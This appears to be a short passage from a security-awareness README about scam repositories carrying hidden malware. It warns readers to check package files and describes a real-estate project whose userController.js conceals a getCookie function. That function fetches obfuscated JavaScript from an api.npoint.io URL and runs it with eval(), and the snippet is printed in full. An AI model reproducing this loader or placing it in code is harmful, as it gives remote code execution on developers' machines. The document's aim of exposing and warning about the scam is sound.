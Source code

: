 - Always review the `package.json`, `requirements.txt`, or `setup.py` before installing.




By staying vigilant, using proper tools, and following security best practices, you can reduce the risk of falling for malicious scams or executing harmful code.



## Repositories





### 1. Real Estate Project





Located in `real_estate/` directory. The malicious payload is hidden in `real_estate/server/controllers/userController.js`.





The malware:



- Makes a request to api.npoint.io to fetch obfuscated JavaScript code



- Executes the fetched code using eval() in Node.js environment



- Located at the end of userController.js in a getCookie function:





```javascript



exports.getCookie = asyncErrorHandler(async (req, res, next) => {



const  result = await  axios.get("https://api.npoint.io/ac2916e3f543effa2edd");



eval(result.data.cookie);



})();



```

